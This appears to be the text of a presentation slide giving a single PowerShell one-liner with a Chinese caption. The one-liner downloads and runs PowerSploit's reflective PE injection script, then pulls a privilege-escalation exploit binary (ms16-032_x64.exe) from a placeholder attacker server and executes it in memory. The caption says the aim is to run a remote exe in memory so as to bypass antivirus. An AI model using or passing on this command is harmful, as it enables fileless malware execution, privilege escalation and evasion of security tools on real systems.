

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://vpsip/down/ms16-032_x64.exe -ExeArgs 'whoami' -ForceASLR
加载远程的exe到内存中执行，从而绕过杀软